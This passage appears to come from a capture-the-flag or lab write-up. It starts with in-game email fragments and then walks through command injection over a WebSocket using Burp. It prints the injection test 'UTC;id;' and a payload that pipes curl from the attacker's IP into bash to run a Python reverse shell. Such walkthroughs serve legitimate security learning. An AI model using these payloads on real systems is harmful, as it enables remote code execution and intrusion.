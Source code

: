 ```
>some implications there that I'm afraid to pursue too
>much further.  I'll talk to Tracer.  Proceed with caution.
>
>-P
```

```
From: ClassicMovies.pcx3345:ABS
To: Paul Denton//NYCNET.33.34.4346
Subject: Account Verification

Mr. Denton:

We've recieved your order for "Blue Harvest" and "See You Next Wednesday."  At
your earliest possible convenience, please remit c110 at which point they will
be shipped immediately.

 Thanks for your business,

 Marcy Plaigrond
 Vibrant Videos, Inc.
```

That's all we can find for the id fuzzing part, if we remember the script opens a `websocket`, we can manipulate this WebSocket to execute commands let's use burp on this case for `websocket` manipulation:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702173041.png)

If we test a simple `command injection`, we get this:

```
UTC;id;
```
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702173113.png)

This means that command injection is possible, so, getting a shell is possible too, in order to get a shell, we can use `busybox` or create a `index.html` file with a python reverse shell:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702172303.png)

Now, we need to host it using a python server and use curl to get the file, once the file downloads, we need to use bash to execute it, we can do all this with the following command:

```
UTC;curl 10.14.21.28|bash;
```

>Note: Make sure to use only ports `80` and `443` because the server is only able to reach us on those ports.

Once we send it, this happens:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702173230.png)
